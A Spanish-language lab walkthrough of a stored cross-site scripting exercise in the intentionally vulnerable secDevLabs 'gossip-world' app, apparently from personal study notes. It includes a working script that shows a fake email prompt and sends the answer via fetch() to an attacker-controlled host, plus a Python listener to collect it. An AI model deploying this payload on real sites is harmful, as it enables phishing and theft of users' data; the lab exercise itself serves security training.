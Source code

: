 ------

Desplegamos el Laboratorio a utilizar :

Utilizamos el repositorio de :

```python
git clone https://github.com/globocom/secDevLabs
```

Ingresamos al archivo creado de `secDevLabs`, luego a la carpeta de `owasp-top10-2021-apps` y entramos a la carpeta `a3`, posterior a `gossip-worl`, para finalmente hacer la intalacion con 

```bash
make install 
```

Al finalizar veremos que nos muestra que nos abrio un recurso por el puerto `10007`, asi que nos dirigimos a ese puerto por el navegador y encontraríamos una página como esta : 
![[Pasted image 20241010001555.png]]


- Nos creamos 2 usuarios
- Ingresamos con las credenciales creadas
- Vamos al apartado donde dice `New gossip`
- Creamos una publicación con texto en HTML 
![[Pasted image 20241010002750.png]]

Dado que nos resuelve la sintaxis del HTML, ahora trataremos de Ingresar código `JavaScript` y si funciona esto ya sería una vulnerabilidad a reportar:

![[Pasted image 20241010003829.png]]

Obviamente esto no sería nada grave, pero uno como atacante podría ingeniarselas para poder ejecutar un panel en donde cualquier usuario que le de click ingrese sus credenciales y nos las envie a nuestro servidor local, como el siguiente ejemplo :

- Lo primero sería ir a cualquier parte de nuestro directorio y crear un archvio llamado  `mail.js` para crear nuestro script malicioso, ya que en la página no distingue bien el tabulador.
```java
<script>
	var email = prompt("Por favor ingresa tu correo electrónico para visualizar el post", "example@example.com");

	if (email == null || email == ""){
		alert("Es necesario introducir un correo válido para visualizar el post");
	} else { 
		fetch("http://nuestra-ip-atacante/?email=" + email);
	}
</script>
```

Una vez copiado el texto en el `gossip` para hacer la publicación, vemos que nos va a a salir un mensaje como este:
![[Pasted image 20241010005506.png]]

Pero si nos ponemos a la escucha por el puerto `80` con un servidor python veremos el correo en tiempo real:

```python
python3 -m http.server 80
```

Tendríamos una respuesta como esta:
![[Pasted image 20241010005755.png]]